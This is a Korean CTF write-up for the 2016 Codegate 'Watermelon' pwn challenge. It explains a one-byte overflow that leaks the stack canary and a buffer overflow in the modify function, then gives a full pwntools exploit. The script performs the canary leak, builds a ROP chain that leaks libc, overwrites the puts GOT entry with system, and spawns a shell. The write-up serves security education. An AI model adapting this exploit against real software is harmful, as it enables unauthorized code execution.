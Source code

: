 ```yaml
---
title: "2016 Codegate Watermelon"
date: 2019-11-13
tags: [Codegate]
categories: [Pwn]
---
```


이름을 입력하는 곳을 보면 전역변수(bss) 영역에 scanf를 받게 된다.

add, view, modify에 들어가는 인자가 4400만큼 할당받는다.

add함수에서는 어떠한 전역변수 하나가 100인지 비교하고 아니면 곡 추가하고 증가해주는 거 보면 곡의 인덱스인거 같다.

playlist 구조체 : num(4) + music(20) + artist(20)

이러한 구조체가 100개 있는 것이다.

```c
int playlist_struct; // [esp+1Ch] [ebp-113Ch]
unsigned int canary; // [esp+114Ch] [ebp-Ch]
구조체(4400) + canary()
```

add() : 1byte overflow

view() : playlist view -> view canary

modify() : overflow 

Canary Leak 시나리오

> add()로 playlist 100개 채우는데 마지막에 artist만 21개 입력해서 Canary Leak해준다.
>
> view()로 가서 Leak된 Canary를 알아온다.
>
> modify()로 가서 bof 일으키고 Canary 값 맞춰주면서 ROP 해주면 된다.

```python
from pwn import *
 
context.log_level = 'debug'
context.arch = 'i386'
 
p = process('./watermelon')
libc = ELF('/lib/i386-linux-gnu/libc.so.6',checksec=False)
e = ELF('./watermelon')
 
sla = lambda x,y : p.sendlineafter(x,y)
sl = lambda x : p.sendline(x)
sa = lambda x,y : p.sendafter(x,y)
s = lambda x : p.send(x)
 
popret = 0x080484d1 # 0x080484d1 : pop ebx ; ret
pop3ret = 0x080495ad # 0x080495ad : pop ebx ; pop edi ; pop ebp ; ret
bss = e.bss()
 
def add():
    sla('\tselect\t|\t\n','1')
    sla('\tmusic\t|\t','A')
    sla('\tartist\t|\t','A')
 
if __name__ == '__main__':
    sla('name : \n','realsung')
    for i in range(99):
        add()
    sla('\tselect\t|\t\n','1')
    sla('\tmusic\t|\t','A')
    sla('\tartist\t|\t','A'*21)
 
    sla('\tselect\t|\t\n','2')
    p.recvuntil('A'*20)
    canary = u32(p.recv(4)) - ord('A')
    log.info('canary : ' + hex(canary))
 
    ########################################
 
    sla('\tselect\t|\t\n','3')
    sla('select number\t|\t\n','100')
    sla('\tmusic\t|\t','B')
 
    # artist(20) + canary(4) + dummy(8) + sfp(4) + ret 
    pay = 'A'*20
    pay += p32(canary)
    pay += 'A'*12
    pay += flat(e.plt['puts'],popret,e.got['puts'])
    pay += flat(e.plt['read'],pop3ret,0,bss,10)
    pay += flat(e.plt['read'],pop3ret,0,e.got['puts'],8)
    pay += flat(e.plt['puts'],'AAAA',bss) 
    sla('\tartist\t|\t',pay)
 
    sla('\tselect\t|\t\n','4')
 
    p.recvuntil('BYE BYE\n\n')
    puts = u32(p.recv(4))
    log.info('puts : ' + hex(puts))
    libc_base = puts - libc.symbols['puts']
    log.info('libc_base : ' + hex(libc_base))
    system = libc_base + libc.symbols['system']
    log.info('system : ' + hex(system))
 
    sl('/bin/sh\x00')
    s(p32(system))
 
p.interactive()
```

